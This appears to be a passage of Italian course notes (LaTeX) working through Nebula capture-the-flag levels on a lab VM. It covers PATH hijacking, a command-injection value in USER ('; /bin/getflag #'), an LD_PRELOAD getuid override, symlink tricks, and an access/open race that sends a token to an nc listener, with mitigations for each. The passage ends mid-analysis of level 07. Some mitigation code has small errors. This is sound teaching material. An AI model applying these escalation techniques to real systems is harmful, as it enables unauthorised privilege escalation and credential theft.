\chapter{Nebula}
Nebula è la prima macchina virtuale che studieremo in questo corso. Ci sono diversi livelli, noi affronteremo le sfide:
\begin{itemize}
    \item Nebula 00
    \item Nebula 01
    \item Nebula 02
    \item Nebula 04
    \item Nebula 07
    \item Nebula 10
    \item Nebula 13
\end{itemize}
La macchina virtuale è scaricabile dal sito \href{https://exploit.education/}{Exploit Education}.
Le sfide di nebula trattano l'iniezione locale e remota di codice.

Ogni macchina ha tre account:
\begin{itemize}
    \item \textcolor{red}{Giocatore}, un utente con il ruolo di attaccante che può accedere con la coppia di credenziali:
    \begin{itemize}
        \item username: levelN(N=00,01,02,ecc.)
        \item password: levelN
    \end{itemize}
    \item \textcolor{red}{vittima}, chiamati flagN(N=00,01,ecc.) rappresentano la vittima e presentano diversi tipi di vulnerabilità
    \item \textcolor{red}{Admin}, amministratore del sistema con credenziali:
    \begin{itemize}
        \item username: nebula
        \item password: nebula
    \end{itemize}
\end{itemize}

Noi accederemo sempre come utente levelN, con l'obiettivo di:
\begin{itemize}
    \item Elevare i privilegi
    \item Ottenere informazioni sensibili
\end{itemize}

Raggiunto l'obiettivo, si cattura la bandierina, per questo motivo le sfide prendono il nome di CTF.

% ------------------ 
% NEBULA LEVEL00
% ------------------ 
\section{Level00}
\subsection{Obiettivo}
Eseguire \textbf{/bin/getflag} con privilegi di \textbf{flag00}.
\subsection{Idea per risolvere la sfida}
Usiamo comando: 
\begin{lstlisting}[style=bashstyle]
    find / -perm /u+s 2>/dev/null | grep flag00
\end{lstlisting}
Tra i vari risultati notiamo il file: 
\begin{lstlisting}[style=bashstyle]
    /bin/.../flag00
\end{lstlisting}
Visualizziamo i metadati del file trovato con il comando:
\begin{lstlisting}[style=bashstyle]
    ls -l
\end{lstlisting} 
Notiamo che è di proprietà di \textbf{flag00} e ha \textbf{SETUID} acceso.
Mandiamo in esecuzione il file con il comando: 
\begin{lstlisting}[style=bashstyle]
    /bin/.../flag00
\end{lstlisting} 
Verremo autenticati come utente flag00 e quindi vinceremo la sfida eseguendo:
\begin{lstlisting}[style=bashstyle]
    /bin/getflag
\end{lstlisting}


% ------------------ 
% NEBULA LEVEL01
% ------------------ 
\section{Level01}
\subsection{Obiettivo}
Eseguire \textbf{/bin/getflag} con privilegi di \textbf{flag01}.
\subsection{Ispezione directory}
Controlliamo le directory \textbf{/home/level01} e \textbf{/home/flag01}. Notiamo che \textbf{/home/flag01} contiene l’eseguibile \textbf{flag01}.
Analizziamo i metadati del file \textbf{flag01} con: 
\begin{lstlisting}[style=bashstyle]
    ls -l
\end{lstlisting}
Si scopre che il file in questione è di proprietà di \textbf{flag01} e ha \textbf{SETUID} acceso.
\subsection{Analisi del sorgente}
\begin{itemize}
    \item Imposta tutti gli user ID al valore effettivo (elevazione dell’utente al valore associato a flag01) 
    \item Imposta tutti i group ID al valore effettivo (elevazione del gruppo al valore associato a level01) 
    \item Esegue un comando, tramite la funzione di libreria \textbf{system():} \begin{lstlisting}[style=cstyle]
        system("/usr/bin/env echo and now what?");
    \end{lstlisting}
\end{itemize}
Leggendo il manuale di \textbf{system()} capiamo che in questa sfida il problema è l’utilizzo della \textbf{system()} in un programma con \textbf{SETUID} acceso, e che giocando con le variabili di ambiente si può violare la sicurezza del programma.
Un altro punto importante è che la \textbf{system()} non funziona correttamente se \textbf{/bin/sh} corrisponde a \textbf{bash}. Quindi controlliamo con il comando: 
\begin{lstlisting}[style=bashstyle]
    ls -l /bin/sh
\end{lstlisting} 
e notiamo proprio che sh punta a bash.

La \textbf{system()} non fa altro che utilizzare sh per eseguire un comando, tale comando viene eseguito da un processo figlio che eredita i privilegi del padre.
Dopodiché \textbf{/usr/bin/env} esegue il comando successivo ovvero echo, quindi per vincere la sfida ci basta inoculare /bin/getflag al posto di echo.

\subsection{Idea per risolvere la sfida}
Copiamo \textbf{/bin/getflag} in una cartella temporanea \textbf{tmp} e diamogli nome \textbf{echo} con il comando: \begin{lstlisting}[style=bashstyle]
    cp /bin/getflag /tmp/echo
\end{lstlisting}
Alteriamo il percorso di ricerca delle variabili d'ambiente in modo da preporre \textbf{/tmp} alla lista delle variabili d'ambiente con il comando: 
\begin{lstlisting}[style=bashstyle]
    PATH=/tmp:$PATH
\end{lstlisting}
Questo è quello che succede:
\begin{itemize}
    \item Il comando env prova a caricare il file eseguibile echo
    \item Poiché echo non ha un percorso assoluto, sh usa i percorsi di ricerca per individuare il file da eseguire 
    \item sh individua /tmp/echo come primo candidato all’esecuzione, dato che l'abbiamo posto per primo
    \item sh esegue /tmp/echo con i privilegi dell’utente flag01
\end{itemize}

\subsection{Sintesi comandi da eseguire}
I comandi da eseguire sul terminale della macchina sono i seguenti:
\begin{lstlisting}[style=bashstyle] 
    # copia getflag in echo
    cp /bin/getflag /tmp/echo
    # aggiorna PATH
    PATH=/tmp:$PATH
    # esegui flag01
    /home/flag01/flag01
\end{lstlisting}
Vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item privilegi di esecuzione ingiustamente elevati
    \item versione bash che non abbassa i privilegi di esecuzione
    \item manipolazione variabile PATH
\end{itemize}

\subsection{Mitigazioni}
\begin{enumerate}
    \item Spegnere bit SETUID:
    \begin{itemize}
        \item autenticarsi come root e avviare una shell con il comando: \begin{lstlisting}[style=bashstyle] 
        sudo -i
        \end{lstlisting}
        \item spegnere SETUID con il comando: \begin{lstlisting}[style=bashstyle] 
        chmod u-s /home/flag01/flag01
        \end{lstlisting}   
        \item Eseguiamo flag01 e noteremo che l’attacco non va a buon fine. 
    \end{itemize}
    \item Modificare sorgente level01.c:
    \begin{itemize}
        \item usare putenv() per rimuover /tmp da PATH:
        \begin{lstlisting}[style=cstyle]
        putenv("PATH=/bin:/sbin:/usr/bin:usr/sbin");
        \end{lstlisting}
        \item compiliamo con il comando:
        \begin{lstlisting}[style=bashstyle]
        gcc -o flag01-env level01-env.c
        \end{lstlisting}
        \item impostiamo i privilegi sul nuovo file con:
        \begin{lstlisting}[style=bashstyle]
        chown flag01:level01 /home/flag01/flag01-env 
        chmod u+s /home/flag01/flag01-env   
        \end{lstlisting}
        \item Impostiamo PATH e riproviamo l'attacco
        \begin{lstlisting}[style=bashstyle]
        PATH=/tmp:$PATH  
        \end{lstlisting} 
        \item Eseguiamo flag01-env e noteremo che l’attacco non va a buon fine.
    \end{itemize}   
\end{enumerate}


% ------------------ 
% NEBULA LEVEL02
% ------------------ 
\section{Level02}
\subsection{Obiettivo}
Eseguire \textbf{/bin/getflag} con privilegi di \textbf{flag02}.
\subsection{Ispezione directory}
Controlliamo le directory \textbf{/home/level02} e \textbf{/home/flag02}. Notiamo che \textbf{/home/flag02} contiene l’eseguibile \textbf{flag02}.
Analizziamo i metadati del file \textbf{flag02} con: 
\begin{lstlisting}[style=bashstyle]
    ls -l
\end{lstlisting}
Si scopre che il file in questione è di proprietà di \textbf{flag02} e ha \textbf{SETUID} acceso.

\subsection{Analisi del sorgente}
\begin{itemize}
    \item Imposta tutti gli user ID al valore effettivo (elevazione dell’utente al valore associato a \textbf{flag02}).
    \item Imposta tutti i group ID al valore effettivo (elevazione del gruppo al valore associato a \textbf{level02}).
    \item Alloca un buffer e ci scrive dentro alcune cose, tra cui il valore di una variabile di ambiente (\textbf{USER}).
    \item Stampa una stringa e il contenuto del buffer.
    \item Esegue il comando contenuto nel buffer tramite \texttt{system}.
\end{itemize}
La funzione di libreria \textbf{asprintf()}:
\begin{itemize}
    \item Alloca un buffer di lunghezza adeguata.
    \item Copia una stringa nel buffer utilizzando la funzione \textbf{sprintf()}.
    \item Restituisce il numero di caratteri copiati (e -1 in caso di errore).
\end{itemize}
Nel sorgente level02.c non è possibile usare l’iniezione di comandi tramite PATH. Al contrario di quanto accadeva in level01.c, in level02.c il path del comando è scritto esplicitamente: \textbf{/bin/echo}

\subsection{Idea per risolvere la sfida}
L’idea qui è quella di modificare \textbf{USER} in modo da modificare buffer.
In BASH è possibile concatenare due comandi con il carattere separatore \textcolor{red}{;} quindi: 
\begin{lstlisting}[style=bashstyle]
    echo comando1; echo comando 2
\end{lstlisting}
Impostiamo USER come segue: 
\begin{lstlisting}[style=bashstyle]
    USER='level02; /bin/getflag'
\end{lstlisting}
Se eseguiamo flag02 l’attacco fallisce perché dopo \textbf{/bin/echo level02; /bin/getflag} c’è la stringa \textbf{is cool}
Per evitare questo usiamo il \textcolor{red}{\#} per commentare. 
Quindi sovrascriviamo USER come segue:
\begin{lstlisting}[style=bashstyle]
    USER='level02; /bin/getflag #'
\end{lstlisting}

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    # Modifica variabile USER
    USER='level02; /bin/getflag #'
    # Esegui flag02
    /home/flag02/flag02
\end{lstlisting} 
Vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item privilegi di esecuzione ingiustamente elevati
    \item versione bash che non abbassa i privilegi di esecuzione
    \item non vengono neutralizzati i caratteri speciali
\end{itemize}

\subsection{Mitigazioni}
\begin{enumerate}
    \item Spegnere bit SETUID:
    \begin{itemize}
        \item autenticarsi come root e avviare una shell con il comando: \begin{lstlisting}[style=bashstyle] 
        sudo -i
        \end{lstlisting}
        \item spegnere SETUID con il comando: \begin{lstlisting}[style=bashstyle] 
        chmod u-s /home/flag01/flag01
        \end{lstlisting}   
        \item Eseguiamo flag01 e noteremo che l’attacco non va a buon fine. 
    \end{itemize}
    \item Ottenere username corrente con funzioni di libreria o sistema. Modifichiamo quindi il sorgente level02.c con la funzione di sistema\textbf{getlogin()}, che restituisce il puntatore ad una stringa contenete il nome dell’utente che sta lanciando il processo.
    \begin{lstlisting}[style=cstyle]
    char *username; 
    username=getlogin(); 
    asprintf(&buffer, "/bin/echo %s is cool", username);
    \end{lstlisting}
    Compiliamo il nuovo sorgente con:
    \begin{lstlisting}[style=bashstyle]
    gcc -o flag02-getlogin level02-getlogin.c
    \end{lstlisting}
    Impostiamo i privilegi su flag02-getlogin con:
    \begin{lstlisting}[style=bashstyle]
    chown flag02:level02 /path/to/flag02-getlogin 
    chmod 4750 /path/to/flag02-getlogin
    (4750 corrisponde a rwsr-x---)
    \end{lstlisting}
    Eseguiamo flag02-getlogin, non vinciamo la sfida.
    \item Un’altra mitigazione si effettua tramite la funzione \textbf{strpbrk()}. Aggiungiamo nel codice:
    \begin{lstlisting}[style=cstyle]
    const char invalid_chars[] = "!\"$&'()*,:;<=>?@[\\]^`{|}";
    \end{lstlisting}
    e dopo la \textbf{asprintf()}
    \begin{lstlisting}[style=cstyle]
    if ((strpbrk(buffer, invalid_chars)) != NULL) { 
    perror("strpbrk"); 
    exit(EXIT_FAILURE); 
    }
    \end{lstlisting}
\end{enumerate}
Quindi compiliamo e impostiamo i privilegi come per la prima mitigazione ed eseguiamo. La sfida non verrà vinta.

% ------------------ 
% NEBULA LEVEL13
% ------------------ 
\section{Level13}
\subsection{Obiettivo}
\begin{itemize}
    \item Recupero della password (token) dell’utente \textbf{flag13}, aggirando il controllo di sicurezza del programma \textbf{/home/flag13/flag13}.
    \item Autenticazione come utente \textbf{flag13}.
    \item Esecuzione del programma \textbf{/bin/getflag} come utente \textbf{flag13}.
\end{itemize}

\subsection{Ispezione directory}
Controlliamo le directory \textbf{/home/level13} e \textbf{/home/flag13}. Notiamo che \textbf{/home/flag13} contiene l’eseguibile \textbf{flag13}.
Analizziamo i metadati del file \textbf{flag13} con: 
\begin{lstlisting}[style=bashstyle]
    ls -l
\end{lstlisting}
Si scopre che il file in questione è di proprietà di \textbf{flag13} e ha \textbf{SETUID} acceso.

\subsection{Analisi del sorgente}
Viene controllato se UID è diverso da 1000, e in tal caso si stampa un messaggio di errore e si esce dal programma.
Altrimenti viene generato il token e viene stampato a video.

\subsection{Idea per risolvere la sfida}
Usando il comando \textbf{man environ}, scopriamo che alcune variabili di ambiente, tra cui \textbf{LD\_LIBRARY\_PATH}, \textbf{LD\_PRELOAD} possono influenzare il comportamento del linker dinamico, ovvero parte del SO che carica e linka le librerie condivise necessarie a un eseguibile a runtime. 
Scopriamo che \textbf{LD\_PRELOAD} contiene un elenco di librerie condivise (shared object) separato da \textcolor{red}{:}

In particolare \textbf{LD\_PRELOAD} viene utilizzata per ridefinire dinamicamente alcune funzioni (function overriding) senza dover ricompilare i sorgenti.
Possiamo usare la variabile \textbf{LD\_PRELOAD} per caricare in anticipo una libreria condivisa che implementa la funzione del controllo degli accessi del programma \textbf{/home/flag13/flag13}. Questa libreria condivisa va scritta da zero, e in particolare, reimposta getuid() per superare il controllo degli accessi.

Scriviamo il file \textbf{getuid.c}.
Generiamo la libreria condivisa \textbf{getuid.so} con il comando: 
\begin{lstlisting}[style=bashstyle]
    gcc -shared -fPIC -o getuid.so getuid.c
\end{lstlisting}

\begin{itemize}
    \item \textcolor{red}{-shared}: genera un oggetto linkabile a tempo di esecuzione e condivisibile con altri oggetti.
    \item \textcolor{red}{-fPIC}: genera codice indipendente dalla posizione (Position Independent Code), rilocabile ad un indirizzo di memoria arbitrario.
\end{itemize}

Carichiamo in anticipo la libreria condivisa getuid.so modificando la variabile \textbf{LD\_PRELOAD} con il comando:
\begin{lstlisting}[style=bashstyle]
    export LD_PRELOAD=./getuid.so
\end{lstlisting}
Proviamo l'attacco ma fallisce, questo perché, se l'eseguibile è SETUID, deve esserlo anche la libreria condivisa.
La soluzione è quella di rimuovere SETUID da flag13. Questo lo facciamo con una semplice copia tramite il comando:
\begin{lstlisting}[style=bashstyle]
    cp /home/flag13/flag13 /home/level13
\end{lstlisting} 

\subsection{Sintesi dei comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    # creiamo il file getuid.c
    # compiliamo getuid.c
    gcc -shared -fPIC -o getuid.so getuid.c
    # carichiamo la nuova getuid.so
    export LD_PRELOAD=./getuid.so
    # copiamo flag13 per spegnere SETUID
    cp /home/flag13/flag13 /home/level13
    # eseguiamo flag13 dalla directory level13
    /home/level13/flag13
\end{lstlisting} 
Otteniamo il token (esempio sulla mia macchina: b705702b-76a8-42b0-8844-3adabbe5ac58).
Accediamo con il token come flag13, eseguiamo /bin/getflag e vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item Privilegi di esecuzione ingiustamente elevati.
    \item Versione di bash che non abbassa i privilegi di esecuzione.
    \item Manipolazione di una variabile di ambiente (\textbf{LD\_PRELOAD}) per sostituire \textbf{getuid()} con una funzione che aggira il controllo di autenticazione.
    \item Bypass dell'autenticazione tramite spoofing: L'attaccante può riprodurre il token di autenticazione di un altro utente.
\end{itemize}
\subsection{Mitigazioni}
\begin{enumerate}
    \item Spegnere bit SETUID:
    \begin{itemize}
        \item autenticarsi come root e avviare una shell con il comando: \begin{lstlisting}[style=bashstyle] 
        sudo -i
        \end{lstlisting}
        \item spegnere SETUID con il comando: \begin{lstlisting}[style=bashstyle] 
        chmod u-s /home/flag01/flag01
        \end{lstlisting}   
        \item Eseguiamo flag01 e noteremo che l’attacco non va a buon fine. 
    \end{itemize}
    \item Non ha senso ripulire la variabile LD\_PRELOAD come fatto per PATH in level01, perché LD\_PRELOAD agisce prima del caricamento del programma. Infatti nel momento in cui il processo esegue putenv() su LD\_PRELOAD, la funzione getuid() è già stata iniettata da tempo!
    La mitigazione qui è banale, ovvero non rendere noto il valore 1000 all'attaccante.
\end{enumerate}

% ------------------ 
% NEBULA LEVEL04
% ------------------ 
\section{Level04}
\subsection{Obiettivo}
\begin{itemize}
    \item Lettura del file token in assenza di permessi per farlo.
    \item Autenticazione come utente \textbf{flag04}.
    \item Esecuzione del programma \textbf{/bin/getflag} come utente \textbf{flag04}.
\end{itemize}

\subsection{Ispezione directory}
Controlliamo le directory \textbf{/home/level04} e \textbf{/home/flag04}. Notiamo che \textbf{/home/flag04} contiene l’eseguibile \textbf{flag04}.
Analizziamo i metadati del file \textbf{flag04} con: 
\begin{lstlisting}[style=bashstyle]
    ls -l
\end{lstlisting}
Si scopre che il file in questione è di proprietà di \textbf{flag04} e ha \textbf{SETUID} acceso.

Inoltre notiamo un file \textbf{token} a cui non possiamo accedere perché non abbiamo i permessi, poiché è leggibile ed eseguibile solo da flag04.

\subsection{Analisi del sorgente}
\begin{figure}[h]
    
\includegraphics[scale=1]{Capitolo 2/Figure/levle04.png}
\end{figure}
\begin{itemize}
    \item Se il numero di argomenti è 1, il programma termina.
    \item Se il nome del file è \textbf{token}, il programma termina e stampa un messaggio di errore.
    Il controllo sul nome del file passato in input viene fatto con la funzione \textbf{strstr()}. Leggendo la documentazione capiamo che la \textbf{strstr()} controlla se la stringa passata come secondo argomento ("token") è contenuta come sotto stringa nell’input passato come primo argomento. Quindi anche con la stringa "eeetokenee" il programma stampa il messaggio di errore di accesso al file "eeetokenee", anche se il file "eeetokenee" non esiste.
    \item Apertura del file in sola lettura tramite la funzione \textbf{open()}.
    \item Lettura del file passato in input tramite la funzione \textbf{read()}.
    \item Scrittura del buffer tramite la funzione \textbf{write()}.
\end{itemize}
Leggendo la documentazione della funzione open scopriamo che può aprire diversi tipi di file, tra cui i \textbf{link simbolici}:
\begin{itemize}
    \item Un link simbolico (symlink o soft link) non è altro che un file che punta ad un altro file.
    \item Un link simbolico viene creato con il comando:
    \begin{lstlisting}[style=bashstyle]
    ln -s nome_file_puntato nome_softlink
    \end{lstlisting}
\end{itemize}

\subsection{Idea per risolvere la sfida}
Creare nella cartella level04 un \textbf{symlink} a un file della vittima, il symlink avrà quindi i permessi dell'utente che l'ha creato. Questo ci permette di bypassare il controllo della strstr.
Creiamo un symlink con nome \textbf{key} che punti al file token con il comando:
\begin{lstlisting}[style=bashstyle]
    ln -s /home/flag04/token key
\end{lstlisting}
Passiamo in input a flag04 il symlink che abbiamo creato e ci verrà stampato il token a video.
\subsection{Perché funziona?}
\begin{itemize}
    \item Il controllo delle \textbf{strstr()} viene bypassato perché l’argomento passato è diverso da \textbf{token} (e/o non contiene \textbf{token} come sottostringa).
    \item Grazie al bit SETUID acceso, la \textbf{open()} in \textbf{level04.c} viene eseguita con i privilegi dell’utente \textbf{flag04}. Quindi chi tenta di aprire il file corrisponde al proprietario, ovvero \textbf{flag04}.
\end{itemize}

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    # Nella directory level04
    ln -s /home/flag04/token key
    # esegui flag04 dando in input key
    /home/flag04/flag04 key
\end{lstlisting}
Otteniamo il token (esempio sulla mia macchina: 06508b5e-8909-4f38-b630-fdb148a848a2).
Accediamo con il token come flag04, eseguiamo /bin/getflag e vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item Privilegi di esecuzione ingiustamente elevati.
    \item Versione di bash che non abbassa i privilegi di esecuzione.
    \item In Unix è possibile accedere ad un file per cui non si hanno i permessi creando un link simbolico che punti ad esso.
\end{itemize}

\subsection{Mitigazioni}
\begin{enumerate}
    \item Spegnere bit SETUID:
    \begin{itemize}
        \item autenticarsi come root e avviare una shell con il comando: \begin{lstlisting}[style=bashstyle] 
        sudo -i
        \end{lstlisting}
        \item spegnere SETUID con il comando: \begin{lstlisting}[style=bashstyle] 
        chmod u-s /home/flag01/flag01
        \end{lstlisting}   
        \item Eseguiamo flag01 e noteremo che l’attacco non va a buon fine. 
    \end{itemize}
    \item La contromisura più ovvia consiste nel non salvare le credenziali di accesso di flag04 nel file token. I dati sensibili non vanno mai memorizzati in chiaro.
    \item Modifichiamo level04.c inserendo la seguente linea di codice:
    \begin{lstlisting}[style=cstyle]
    fd = open(argv[1], O_RDONLY | O_NOFOLLOW);
    \end{lstlisting}
    Compiliamo con:
    \begin{lstlisting}[style=bashstyle]
    gcc -o flag04-mitigated level04-mitigated.c
    \end{lstlisting}
    All'esecuzione del nuovo binario flag04-mitigated con argomento il symlink key si ha il messaggio di errore:
    \begin{lstlisting}[style=bashstyle]
    flag04-mitigated: Unable to open key: Too many levels of symbolic links
    \end{lstlisting} 
    \item Modifichiamo level04.c inserendo all'interno del codice sorgente il seguente frammento: 
    \begin{lstlisting}[style=cstyle]
    if(readlink(argv[1],buf,sizeof(buf) > 0)){
        printf("Sorry. Symbolic links not allowed!\n");
        exit(EXIT_FAILURE); 
    }
    \end{lstlisting} 
    Compiliamo con:
    \begin{lstlisting}[style=bashstyle]
    gcc -o flag04-readlink level04-readlink.c
    \end{lstlisting}
    All'esecuzione del nuovo binario flag04-readlink con argomento il symlink key si ha il messaggio di errore:
    \begin{lstlisting}[style=bashstyle]
    Sorry. Symbolic links not allowed!
    \end{lstlisting} 
\end{enumerate}

% ------------------ 
% NEBULA LEVEL10
% ------------------ 
\section{Level10}
\subsection{Obiettivo}
\begin{itemize}
    \item Lettura del token (password dell’utente \textbf{flag10}), in assenza dei permessi per farlo.
    \item Autenticazione come utente \textbf{flag10}.
    \item Esecuzione del programma \textbf{/bin/getflag} come utente \textbf{flag10}.
\end{itemize}

\subsection{Ispezione directory}
Controlliamo le directory \textbf{/home/level10} e \textbf{/home/flag10}. Notiamo che \textbf{/home/flag10} contiene l’eseguibile \textbf{flag10}.
Analizziamo i metadati del file \textbf{flag10} con: 
\begin{lstlisting}[style=bashstyle]
    ls -l
\end{lstlisting}
Si scopre che il file in questione è di proprietà di \textbf{flag10} e ha \textbf{SETUID} acceso.

Inoltre notiamo un file \textbf{token} a cui non possiamo accedere perché non abbiamo i permessi, poiché è leggibile ed eseguibile solo da flag10.

Il programma si aspetta due argomenti: il nome di un file e di un host. Come primo tentativo usiamo \textbf{token} come file e come host quello \textbf{locale}, ovvero \textbf{127.0.0.1}

Non avendo i permessi per accedere a token, verrà stampato un messaggio di errore.

\subsection{Analisi del sorgente}
\begin{itemize}
    \item Se il numero di argomenti è minore di 3, il programma termina.
    \item Il primo parametro è il nome del file; il secondo è il nome dell'host.
    \item Si controlla se il file è accessibile in lettura, altrimenti si stampa un messaggio di errore.
    \item Se il file ha i permessi in lettura, viene stampato il messaggio di connessione all'host indicato.
\end{itemize}
\textbf{N.B.} Non possiamo usare un softlink che punta a token, perché la funzione access a differenza della open, con i softlink controlla il file puntato direttamente. Più precisamente viene fatto un controllo sul RUID e non sulL' EUID.

\subsection{Idea per risolvere la sfida}
Leggendo il manuale della access vediamo che: Utilizzare access() per verificare se un utente è autorizzato ad aprire un file prima di farlo effettivamente usando open() crea una falla di sicurezza, perché l'utente potrebbe sfruttare il breve intervallo di tempo tra il controllo e l'apertura del file per manipolarlo."
Controllando il sorgente notiamo proprio che c'è effettivamente un intervallo tra il controllo dei permessi con la access e l'apertura del file con la open. Quindi sfruttiamo quest'intervallo:
\begin{itemize}
    \item Creiamo un file temporaneo che ci faccia superare il controllo della \textbf{access()}
    \item Sostituiamo il file da leggere con un link simbolico che punta al file \textbf{token} prima della \textbf{open()}, come fatto in \textbf{nebula04}.
\end{itemize}
Creiamo un token finto:
\begin{lstlisting}[style=bashstyle]
touch /tmp/tokenfinto
\end{lstlisting}
Scriviamo una stringa di test dentro il file \textbf{tokenfinto}
\begin{lstlisting}[style=bashstyle]
echo "test" > /tmp/tokenfinto
\end{lstlisting}

Creiamo il softlink a \textbf{tokenfinto}:
\begin{lstlisting}[style=bashstyle]
ln -s /tmp/tokenfinto /home/level10/flag
\end{lstlisting} 
Il soft link ci fa superare il controllo della access, perché abbiamo accesso al file puntato (abbiamo creato noi tokenfinto).
Una volta superato il controllo della access, creiamo un soft link al file token vero:
\begin{lstlisting}[style=bashstyle]
ln -sf /home/flag10/token /home/level10/flag 
\end{lstlisting} 
Il soft link ci fa superare il controllo della open, come in Level04.
Una singola esecuzione dell'attacco suggerito non è sufficiente, infatti potremmo non individuare il momento giusto per lo scambio del file tra la access() e la open().
Servono più esecuzioni del programma per far sì che il softlink, all'apertura della open(), punti al file token. Possiamo usare l'istruzione \textbf{BASH while true} per creare un ciclo infinito. Mettiamo il processo in background con \textbf{\&}:
\begin{lstlisting}[style=bashstyle]
    while true; do ln -sf /tmp/tokenfinto /home/level10/flag; ln -sf /home/flag10/token /home/level10/flag; done &
\end{lstlisting} 
Creiamo un ciclo infinito di esecuzione di flag10 con:
\begin{lstlisting}[style=bashstyle]
    while true; do /home/flag10/flag10 /home/level10/flag IPAddress; done
\end{lstlisting} 
Sull'host otteniamo quindi il token dopo vari tentativi. Usiamo il token per entrare come flag10 e vincere la sfida.

\subsection{Sintesi comandi da eseguire}
\subsubsection{Sulla seconda macchina virtuale}
\begin{lstlisting}[style=bashstyle]
    # recupera ip
    ip addr
    # metti in ascolto sulla porta 18211
    nc -lvnp 18211
\end{lstlisting}

\subsubsection{Sulla macchina principale}
\begin{lstlisting}[style=bashstyle]
    # crea token finto
    touch /tmp/tokenfinto
    # scrivi test dentro tokenfinto
    echo "test" > /tmp/tokenfinto
    # crea loop infinito che scambia il symlink tra token e tokenfinto
    while true; do ln -sf /tmp/tokenfinto /home/level10/flag; ln -sf /home/flag10/token /home/level10/flag; done &
    # crea ciclo per eseguire all'infinito flag10
    while true; do /home/flag10/flag10 /home/level10/flag IPAddress; done
\end{lstlisting}
Otteniamo il token sulla seconda macchina, lo usiamo per autenticarci come flag10 nella macchina principale, eseguiamo \textbf{/bin/getflag} e vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item Privilegi di esecuzione ingiustamente elevati.
    \item Versione bash che non abbassa i privilegi di esecuzione.
    \item L'utilizzo della funzione \textbf{access()} seguito da una \textbf{open()} comporta un buco di sicurezza (race condition):
    \begin{itemize}
        \item Situazione in cui il risultato dell'esecuzione di un insieme di processi, che condividono una risorsa, dipende dall'ordine in cui essi sono eseguiti.
    \end{itemize}
\end{itemize}

\subsection{Mitigazioni}
\begin{enumerate}
    \item Spegnere bit SETUID:
    \begin{itemize}
        \item autenticarsi come root e avviare una shell con il comando: \begin{lstlisting}[style=bashstyle] 
        sudo -i
        \end{lstlisting}
        \item spegnere SETUID con il comando: \begin{lstlisting}[style=bashstyle] 
        chmod u-s /home/flag01/flag01
        \end{lstlisting}   
        \item Eseguiamo flag01 e noteremo che l’attacco non va a buon fine. 
    \end{itemize}
    \item La contromisura più ovvia consiste nel non salvare le credenziali di accesso di flag04 nel file token. I dati sensibili non vanno mai memorizzati in chiaro.
    \item Creiamo un nuovo file level10-mitigated.c ed effettuiamo due operazioni.
    \begin{itemize}
        \item Abbassiamo i privilegi prima della open con:
        \begin{lstlisting}[style=cstyle]
            int uid = getuid();
            int euid = geteuid();
            seteuid(uid);
        \end{lstlisting}
        \item Ripristiniamo i privilegi dopo la open:
        \begin{lstlisting}[style=cstyle]
            seteuid(euid);
        \end{lstlisting}
    \end{itemize}
\end{enumerate}
Compiliamo il sorgente e diamo all'eseguibile gli stessi permessi di flag10 con:
\begin{lstlisting}[style=bashstyle]
    gcc -o flag10-mitigated level10-mitigated.c
    chown flag10:level10 /path/to/flag10-mitigated 
    chmod 4750 /path/to/flag10-mitigated
    (4750 corrisponde a rwsr-x---)
    \end{lstlisting}
Ripetiamo l'attacco. Noteremo che non andrà a buon fine.

% ------------------ 
% NEBULA LEVEL07
% ------------------ 
\section{Level07}
\subsection{Obiettivo}
Come sempre l'obbiettivo della sfida è eseguire \textbf{/bin/getflag} come utente \textbf{flag07}.
Iniezione remota, ovvero iniezione che avviene tramite un vettore di attacco remoto.
\subsection{Iniezione remota}
\begin{itemize}
    \item \textbf{Asset client} che invia richieste
    \item \textbf{Asset server} che riceve richieste, elabora risposte, invia risposte
\end{itemize}
I dati delle richieste e delle risposte sono trasmessi tramite protocollo TCP/IP.
I dati delle richieste contengono iniezioni in uno specifico linguaggio, ad esempio shell o SQL.
I dati delle richieste sono ricevuti tramite un protocollo applicativo e inoltrati tramite un altro protocollo applicativo.



\subsection{Ispezione directory}
Controlliamo le directory level07 e flag07, notiamo che flag07 contiene file di configurazione BASH e altri due file molto interessanti:
\begin{itemize}
    \item \textbf{index.cgi}
    \item \textbf{thttpd.conf}
\end{itemize}
Visualizziamo i metadati di index.cgi con:
\begin{lstlisting}[style=bashstyle]
    ls -l
\end{lstlisting}
Notiamo che index.cgi:
\begin{itemize}
    \item È leggibile ed eseguibile da tutti gli utenti e modificabile solo da root
    \item Non è SETUID
\end{itemize}

\subsection{Analisi del sorgente}
\begin{itemize}
    \item L'interprete dello script è PERL.
    \item Importa il modulo \textbf{CGI.pm}, contenente le funzioni di aiuto nella scrittura di uno script CGI.
    \item Il modulo CGI effettua il parsing dell'input e rende disponibile ogni valore attraverso la funzione \textbf{param()}.
    \item Stampa su STDOUT l'intestazione HTTP “Content-type”, che definisce il tipo di documento servito (HTML).
    \item \texttt{sub ping\{...\}} definisce la funzione \texttt{ping}.
    \item La variabile \texttt{\$host} riceve il valore del primo parametro della funzione (\texttt{\$\_[0]}).
    \item Stampa l'intestazione HTML della pagina.
    \item L'array \texttt{output} riceve tutte le righe dell'output del comando successivo.
    \item Per ogni linea di output, stampa la linea.
    \item Stampa i tag di chiusura della pagina HTML.
    \item Invoca la funzione \texttt{ping} con argomento pari al valore del parametro \texttt{Host} della query string HTTP.
\end{itemize}

Quindi Lo script index.cgi riceve input da:
\begin{itemize}
